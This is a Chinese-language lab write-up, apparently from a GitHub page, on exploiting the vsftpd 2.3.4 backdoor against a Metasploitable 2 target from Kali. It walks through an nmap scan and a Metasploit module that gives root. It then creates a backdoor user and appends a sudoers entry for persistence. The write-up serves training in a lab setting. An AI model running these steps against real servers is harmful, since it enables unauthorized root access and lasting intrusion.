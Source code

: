 ```yaml
---
typora-root-url: ./笑脸漏洞(vsftpd 2.3.assets
---
```


# 笑脸漏洞(vsftpd 2.3.4)

### 漏洞原理

VSFTPD（Very Secure FTP Daemon）是一个常用的FTP服务器软件。 "vsftpd 2.3.4 Backdoor"（也称为 "vsFTPd 2.3.4 Backdoor" 或 "vsftpd v2.3.4 backdoor"）。该漏洞最初于2011年被公开发现，影响了VSFTPD 2.3.4版本。这个版本中的一个后门（backdoor）允许攻击者通过一个特殊的用户名和密码组合来获得未经授权的访问权限。这个后门的存在可能导致攻击者执行恶意操作，例如未经授权地访问和修改FTP服务器上的文件。

### 环境

##### 攻击机

- kali3-amd64 (2022-11-07) x86_64 GNU/Linux

##### 靶场

- metasploitable 2.6.24-16-server

## 攻击记录

#### 第一步:

查询目标靶场IP地址 

```	
ifconfig
```

![clip_image002-1689145550679-2](/clip_image002-1689145550679-2.jpg)

#### 第二步:

ping通靶场 证明可以进行正常连接

```
ping IP address
```

![img](/clip_image002.jpg)



#### 第三步：

在Kali中用nmap扫描目标主机的21端口，发现该靶场的ftp的版本存在笑脸漏洞(在检测到用户名带有特殊字符”:)” )时，会自动打开6200端口，使用nc即可进行连接这个端口，取得管理员权限

```
nmap -p 21 -sV IP address
```

![img](/clip_image002-1689146830333-5.jpg)

#### 第四步

使用Metasploit 对该漏洞进行攻击

```
启动msfconsole
```

![img](/clip_image002-1689146835765-7.jpg)

```
search vsftpd (搜索vsftpd漏洞)
```

![img](/clip_image002-1689146839850-9.jpg)

```	
show option
```

![img](/clip_image002-1689146844673-11.jpg

``` 
use 0
run
```

![img](/clip_image002-1689146876091-13.jpg)

成功获得root权限

![img](/clip_image002-1689146915517-17.jpg)



#### 第五步

获得靶场权限，添加一个用户bbb （用户名:bbb 密码:666）

``` shell
useradd bbb
passwd bbb
```

![img](/clip_image001-1689146911390-15.png)

#### 第六步

给我们自己用户获得root 权限

修改/etc/sudoers文件

``` shell
echo "bbb ALL=(ALL) ALL" | tee -a /etc/sudoers
```

### ![img](/clip_image002-1689147014225-19.jpg)

成功写入！

### 结果检测

- 用户bbb登陆靶场

![img](/clip_image002-1689147032724-23.jpg)

- 用户bbb可以查看/etc/sudoers文件 提权成功！
- ![img](/clip_image002-1689147036253-25.jpg)

